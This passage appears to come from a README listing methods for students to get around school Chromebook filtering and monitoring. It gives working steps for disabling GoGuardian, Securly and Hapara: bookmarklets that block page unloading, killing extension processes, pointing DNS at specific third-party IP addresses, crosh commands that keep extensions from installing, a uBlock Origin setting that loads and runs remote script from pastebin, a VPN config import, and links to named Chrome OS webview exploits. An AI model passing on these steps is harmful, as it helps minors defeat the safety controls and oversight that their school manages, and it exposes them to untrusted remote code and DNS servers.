2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps

Note: Before you do any of the method 4 tricks only do this at home so that way you don't have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**

1. Go to the chrome-extension://Paste the blocker id here/manifest.json page.
2. Go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.
3. Go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put chrome://kill now save that bookmark.
4. Create another bookmark called D. Click more In the URL Box copy and paste  `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`    Into that URL Box and save that bookmark.
5. Go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B. Then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop-up called `Do you want to close this page?` click cancel now boom that website is unblocked until you turn off your Chromebook or until you exit out of that website then if that happens your gonna have to do all the steps again.

An easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))` Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.
  
Name of Bookmarklet > Unblock Website: `javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))`

Note: Save `chrome-extension://Paste` the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

1. make a bookmark called tab close blocker now click more on the bottom left corner in that URL BOX put `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`
2. go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.
3. do search+esc now that should open task manager if search+esc doesn't work then click the three dots on the top right now and scroll down until you find more tools click that and now find Task Manager click it now boom done with step 3.
4. find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the new page and click enter now quickly spam the bookmark tab close blocker Now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.
  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End Process button for the task manager is blocked your double screwed.
  </details>
  
  <details>
  <summary><b>Incognito</b> Bypass Extensions</summary>
IP Server: Server 1. 52.207.185.90

1. Go to your settings
2. Click on the wifi your using rn then click it again.
3.  Scroll down until you see network once you see the option click it.
4. Scroll down until you find custom name servers now once you find the option click it.
5. Paste in the IP Server.
6. Now there should be a notification saying open a new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for tests
7. Go back to the network settings and change the custom name servers to automatic name servers.

Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.
If you close out of the Incognito Tab you will have to do all the steps again.
Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School
</details>
<details>
<summary><b>Google System Method</b> Bypass Extensions</summary>
Unblocked Google

1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `signin options`
5. Now click sign in with GitHub
6. Click the GitHub cat icon
7. In the search box on the top right type google and then click see more topics then you will see all the Google links click `www.google.com` now boom unblocked Google.

</details>
<details>
<summary><b>Quick View</b> Bypass Extensions</summary>
**QuickView is a universal web view exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**
Go here and follow the instructions: https://quickview-exploit.pages.dev/
WARNING: If javascript:// is blocked then you can't perform this exploit

</details>

<details>
<summary><b>School Network Restriction Bypass</b> Bypass School Network Restrictions</summary>
IP Server 1: 8.8.8.8 in all boxes
IP Server 2: 1.1.1.1 in the first box and 1.0.0.1 in the second box the third and fourth boxes stay 0.0.0.0

1. Go to your settings
2. Click on the wifi you using right now then click it again.
3.  Scroll down until you see the network once you see the option click it.
4. Scroll down until you find custom name servers once you find the option click it.
5. Paste in one of the IP Servers.
Note: If IP Server 1 doesn't work then use IP Server 2 if IP Server 2 doesn't work then try using IP Server 1 if they both don't work you're screwed

</details>

<details>
<summary><b>OP Crosh</b> Disable extensions with crosh</summary>

1. Back up any data you want before the powerwash.
2. If you're doing the second variation, note down any extension IDs. You may also want to do this if you intend on disabling all extensions since sometimes that will fail and require you to specify each extension you want to disable.
3. Powerwash by attempting to enable developer mode. Instructions are available here: [this link](https://chromium.googlesource.com/chromiumos/docs/+/master/developer_mode.md#dev-mode)
4. Log into your Google account as normal, but immediately disable your internet right after you sign in.
5. You should be logged into your account, but without any extensions installed due to being offline.
Here the instructions are split, so follow the one for the method that you want to do.
 
Disable All Extensions:
1. Open up crosh by hitting ctr+alt+t.
2. Type in `vmc create-extra-disk --size 1 /home/chronos/user/Extensions`
3. Run that command.
4. If it fails with a "file exists" error, then you must individually specify each extension that you want to remove. Move to step 5 of the next section to do that.
5. Re-enable your internet, and no extensions should be installed.
 

Disable Specific Extensions:
1. Navigate to `chrome://extensions`.
2. Enable your internet, and immediately disable it when an extension is installed.
3. Assuming the installed extension was not one that you were trying to disable, move on to step 4. If it was, you'd have to powerwash to try again.
4. Open up crosh by hitting ctr+alt+t.
5. For each extension you want to disable, run this command: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/{extension_id}`
6. Each command should look something like this: `vmc create-extra-disk --size 1 /home/chronos/user/Extensions/cjpalhdlnbpafiamejdnhcphjbkeiagm`
7. Re-enable your internet, and if you typed/pasted in the extension IDs correctly, those specific extensions should be blocked from ever being installed.

Made by vk6

</details>

<details>
<summary><b>uBlock Origin</b> Run Code On Pages</summary>

if your school allows the ublock origin chrome extension, then running the edpuzzle script (as well as any other bookmarklet) is possible

1. install ublock origin (<a href="https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm">https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm</a>)

2. go to the extension's settings

3. under the settings tab, check the "i am an advanced user" box and click on the cog icon

4. inside the advanced settings (chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/advanced-settings.html), scroll down and find userResourcesLocation now change userResourcesLocation from unset to <a href="https://pastebin.com/raw/PPZ1T7uh">https://pastebin.com/raw/PPZ1T7uh</a>

5. in the My filters tab of the settings (chrome-extension://cjpalhdlnbpafiamejdnhcphjbkeiagm/dashboard.html#1p-filters.html), add *##+js(execute_script.js) as a filter

6. now you can press ctr+alt+tilde (~) to run any js on the current page

7. if you want to run a bookmarklet, just paste in the javascript: url and press ok on the popup

</details>

</details>

<details>
<summary><b>Incognito on Sign-In</b> Bypass Extensions/Unblocked Google Webview</summary>
Might work but idk if it will

IP Servers: Server 1. `52.207.185.90`
            Server 2. `158.111.114.159`

1. On the sign-in screen go to your Wi-Fi settings and click on the wifi you are using right now.
2. Then Scroll down until you see network once you see the option click it.
3. Scroll down until you find custom name servers once you find the option click it.
4. Paste in the IP Servers
5. Now on the network settings click the sign in and you should be in a small window with some instructions, there are 2 buttons click the blue link and boom unblocked webview of google.

Cool Facts About Incognito Mode:
1. No Extensions.
2. Your History Is Hidden From Your School*

*If your school does not have network logs or anything like that

</details>

<details>
<summary><b>chrome-signin webview</b> Yet another webview bypass</summary>
  
1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `sign in options`
5. Now click sign in with GitHub
6. Click the GitHub logo
7. In the search box on the top right type Google and then click see more topics then you will see all the Google links click `www.google.com`
8. Profit

</details>

<details>
<summary><b>chrome-signin webview 2</b> Yet another webview bypass</summary>
Unblocked Google
  
1. Go to `chrome://chrome-signin`
2. Click OK on the bottom right corner
3. In the Email text box put `google@d11.org`
4. Click `signin options`
5. Now click sign in with GitHub
6 Click forgot password instead of the GitHub logo
7. Click docs
8. Scroll down
9. Click Ask the GitHub community
10. Search Google and click the hyperlink on the right

Credit to snail for finding this workaround.

</details>

<details>
<summary><b>Microsoft Labs</b> Bypass Extensions</summary>

YOU NEED A MICROSOFT ACCOUNT FOR THIS

Go to: <a href="https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1">https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1</a>

Next, sign into your Microsoft account, if it doesn't already, go back to that link

Then, hit Launch VM Mode

After it loads it's gonna ask for a password, the password is pass@word1 See images attached if needed

Then boom, you are done.

It's still kinda limited, like you can't go on Spotify sound doesn't output anyway and it, blocks random sites, but Discord 100% works

</details>

<details>
<summary><b>Quick View Exploit</b> Bypass Extensions</summary>

**QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.**

Go to <a href="https://quickview-exploit.pages.dev/">this link</a> and follow instructions

WARNING: If javascript:// is blocked then you can't preform this exploit

</details>

<details>
<summary><b>Buypass</b> Temporarily Unblock Websites</summary>

Exploit Made By <a href="https://buymeacoffee.com/bypassi">Bypassi#7037</a>

Here's the original GitHub repo of the buypass exploit: <a href="https://github.com/bypassiwastaken/buypass">Bypassi#7037's Buypass Exploit Github Repo</a>

Here's the original website of the buypass exploit: <a href="https://buypass.bypassi.com/">Bypassi#7037's Buypass Exploit Website</a>

Here are 3 alternative websites for the buypass exploit:

1. <a href="https://buypass.brandonprather.repl.co/">Buypass Exploit Repl Website</a>

2. <a href="https://buypass.glitch.me/">Buypass Exploit Glitch Website</a>

3. <a href="https://buypass.netlify.app/">Buypass Exploit netlify.app Website</a>

This Exploit Is Kinda Similar To The Quick View Exploit

</details>

<details>
<summary><b>[Webview] Testnav Exploit</b> Unblocked Webview for either google or a web browser</summary>

Step 1. Download Testnav off the webstore/playstore/or run as a kiosk app as some schools have it added as one
Step 2. Open it
Step 3. After opened it will probably bring you to the page were you select your consumer, click aimsweb/aimsweb plus
Step 4. After you click goto select your district in the bottom right corner of the page
Step 5. Select “STRATFORD FRIENDS SCHOOL” 
Step 6. Click the arrow to the right of the selection box
Step 7. Click sign in options
a) Click sign in with github
Step  8. Click the github logo at the top of the screen
Step 9. Click the three bars in the top right corner, then goto the search box and type in googleyay
Step 11. Scroll down until you see DerDer56/googleyay
Step 12. There's several links to choose from, but if there's a link you want that's not there click the Bypassi Redirect Tool
(Optional) Step 13. Type in the link you want to go on and click "Go To the URL"
Step 14. Click it and you have webview (unblocked browser)

</details>

<details>
<summary><b>Disable GoGuardian With The Chat</b> Disable GoGuardian [Unreliable]</summary>

1. wait until your teacher opens the chat window thingy

2. spam the x button until it stops re-opening

3. open the url `chrome-extension://haldlgldplgnggkjaafhelgiaglafanh/manifest.json`

4. open `chrome://extensions/?id=haldlgldplgnggkjaafhelgiaglafanh`, and toggle the “allow access to file:// urls” switch

goguardian is now disabled and you can close both tabs 

made by carteeeee

</details>

<details>
<summary><b>Temporary Disable GoGuardian using a dns</b> Temporarily Disable GoGuardian</summary>

This method will remove GoGuardian from your Chromebook and keep it off, until you switch to a non-DNS wifi

1 - Powerwash your Chromebook

A) esc+refresh+power

B) then "ctrl"+"d" and then space or enter from then on

2 - Immediately after you add wifi to your Chromebook add the DNS record 158.101.114.159

A) Click on the menu at the bottom right of the screen and Click the Settings icon, go to your wifi, scroll to the bottom and open the networks dropdown, choose the "Custom name server" bubble, change the first box to 158.101.114.159

</details>

<details>
<summary><b>Insecurly</b> Disable Or Bypass Securly</summary>

**ONLY FOR SECURLY USERS**

Go to <a href="https://insecurly.bypassi.com/">this link</a> and follow instructions

If blocked then go cry in a corner
</details>

<details>
<summary><b>Chaos</b> A full bypass method for Hapara Highlights and Hapara Filter</summary>

**Devtools must not be blocked by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow instructions
</details>

<details>
<summary><b>Network Bypassing</b> A bypass for any network filters.</summary>

**ONLY FOR NETWORK FILTERS. A network filter is something that blocks website on the actual network instead of the operating system. Thus you can't disable with exploits like LTBEEF or LTMEAT.**

Go to <a href="https://drive.google.com/file/d/1MGVFf8d9pww0M2bO9ogxQX1LyR1y6zc_/view">this link</a>. Now once you have downloaded the ONC file. Goto chrome://network and press "Import ONC File". You will have know if it worked if it says: "Network imported: 1". Then click on the time, or goto settings. Find VPN, click on it and click on the "Haven VPN" it will say "Connected" and now you are free.


If chrome://network is blocked, start bawling your eyes out and beat up your IT manager.
</details>

boop

